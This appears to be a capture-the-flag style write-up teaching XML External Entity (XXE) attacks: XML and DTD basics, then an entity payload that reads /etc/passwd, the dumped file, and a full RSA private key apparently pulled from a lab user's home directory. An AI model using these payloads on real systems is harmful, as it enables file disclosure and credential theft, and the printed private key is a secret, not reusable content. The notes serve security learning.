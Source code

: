 # XXE - xml external entity

```
export IP=10.10.7.44
```

- [Explanation](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

- the xxe attack is a type of attack against apps that parse xml data. The attacker leverages weakly configured xml parsers to inject malicious xml code that will access forbiden info or cause some type of damage to the system.

- DTD -> Document type declaration
 
### eXtensible Markup Language

- what is xml. From what i know, xml is just like json(used to transfer data or store data). It is used to encode documents in a form that is human readable and machine readable. And it is a markup language.

- Why use xml thoughh??
	1. XML is platform-independent and programming language independent, thus it can be used on any system and supports the technology change when that happens.

	2. The data stored and transported using XML can be changed at any point in time without affecting the data presentation.

	3. XML allows validation using DTD and Schema. This validation ensures that the XML document is free from any syntax error.

	4. XML simplifies data sharing between various systems because of its platform-independent nature. XML data doesn’t require any conversion when transferred between different systems.

- xml documents starts with the xml prolog. Good practice but not compulsory.
```xml
<?xml version="1.0" encoding="utf-8"?>
```

- Simple xml document and syntax. And just like html, xml can have attributes too.
```xml
<?xml version="1.0" encoding="utf-8"?>
<mail>
	<to>falcon</to>
	<from>feast</from>
	<subject>About XXE</subject>
	<text>Learn about xxe</text>
</mail>
```

### DTD -> Document Type Definition.

- this is a document that describes the legal entities of the xml file. It is a sort of a validator to check that all the elements of the xml document are what they are supposed to be.

sample dtd document `note.dtd` contains
```
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```
`#PCDDATA` -> parseable character data.

and the validate xml document will be something like:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```


### XXE Payload

- xxe payloads are crafted by specifying the `!ENTITY` keyword. We define a new entity and then have it done something stubborn on the server for us.

-Simple payload
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
<userInfo>
	<firstName>falcon</firstName>
	<lastName>&name;</lastName
</userInfo>

```
- Another simple yet dangerous one is
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'> ]>
<root>&read;</root>
```
/etc/passwd file:
```
     root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash

```
It worked!.

### Exploiting

1. What is the name of the user in /etc/passwd 
```
falcon
```

2. Where is falcon's SSH key located?
```
/home/falcon/.ssh/id_rsa
```

3. What are the first 18 characters for falcon's private key
complete id_rsa file
```
      -----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEA7bq7Uj0ZQzFiWzKc81OibYfCGhA24RYmcterVvRvdxw0IVSC
lZ9oM4LiwzqRIEbed7/hAA0wu6Tlyy+oLHZn2i3pLur07pxb0bfYkr7r5DaKpRPB
2Echy67MiXAQu/xgHd1e7tST18B+Ubnwo4YZNxQa+vhHRx4G5NLRL8sT+Vj9atKN
MfJmbzClgOKpTNgBaAkzY5ueWww9g0CkCldOBCM38nkEwLJAzCKtaHSreXFNN2hQ
IGfizQYRDWH1EyDbaPmvZmy0lEELfMR18wjYF1VBTAl8PNCcqVVDaKaIrbnshQpO
HoqIKrf3wLn4rnU9873C3JKzX1aDP6q+P+9BlwIDAQABAoIBABnNP5GAciJ51KwD
RUeflyx+JJIBmoM5jTi/sagBZauu0vWfH4EvyPZ2SThZPfEb3/9tQvVneReUoSA5
bu5Md58Vho6CD81qCQktBAOBV0bwqIGcMFjR95gMw8RS9m4AyUnUgf438kfja5Jh
NP36ivgQZZFBqzLLzoG9Y9jlGKjiSyMvW4u63ZacCKPTpp5P53794/UVU7JiM03y
OvavZ2QveJp5BndV5lOkcIEFwFRACDK1xwzDRzx/TNJLufztb2EheMc3stNuOMea
TLKlbG0Mp/c2az8vNN6HA0QiwxYlKZ58RfdsOfbsFxAltYNnzxy9UEieXtrWVg7X
Qfi/ZeECgYEA/pfgg6BClEmipXv8hVkLWe7VwlFf4RXnxfWyi6OqC/3Yt9Q9B4Ya
6bgLzk2vPNHgJt+g2yh/TzMX6sCC9IMYedc0faiJr/VISBm25qTjqIGctwt0D3nb
j60mSKKFbwDPxrcek/7WH1cWDcaLTDdL9KPLk1JQzbwDzojrE1TDD+cCgYEA7wsA
MPm4aUDikZHKhQ5OOge+wzPNXVR6Yy1VV3WZfxRCoEuq6fYEJsKB5tykfQPC8cUn
qwGvo8TiMHbQ9KmI5FabfBK8LswQ575bnLtMxdPyBCgYqlsAIkPYQAOizUVlrOOg
faKF5VknsONM9DC3ZNx5L1zQXbsIrWbEPsRlytECgYB7CXr/IZwLfeqUfu7yoq3R
sJKtbhYf+S4hhTPcOCQd13e8n10/HZg0CzXpZbGieusQ3lIml9Ouusp8ML0Y3aIe
f9pmP+UKnEdqUMMLg/RhowHRlD9qm0F4lf1CbQh/NK01I5ore6SPUM7fqWv4UWDr
wZzIfad/RbWxQooYtYXvUQKBgFDLcBIdpYX1x16aX1AfqLMWgRSrQqNj9UXmQa0g
83OvXmGdkbQoUfjjz1I/i10x00cycxjqpfn9htIIptG7J6i92SnTj0Vl9eTOQ1qz
N9y5qVhcURHrVh0+vy3LzNACv73y5gDw2L7PJoo0GYODn8j4eAFZJpg3qlQpovTw
HtOxAoGABqwywFKFNTYgrl17Rs4g3H1nc0EhOzGetRaRL2bcvQsZevuWyswp0Mbm
9nlgNAtxttsmfL+OU7nP3I4YQlyZed4luRWcRaXrvGMqfEL4wzRez5ZxMnZM/IlQ
9DBlD9C7t5MI3aXR3A5zFVVINomwHH7aGfeha1JRXXAtasLTVvA=
-----END RSA PRIVATE KEY-----
```
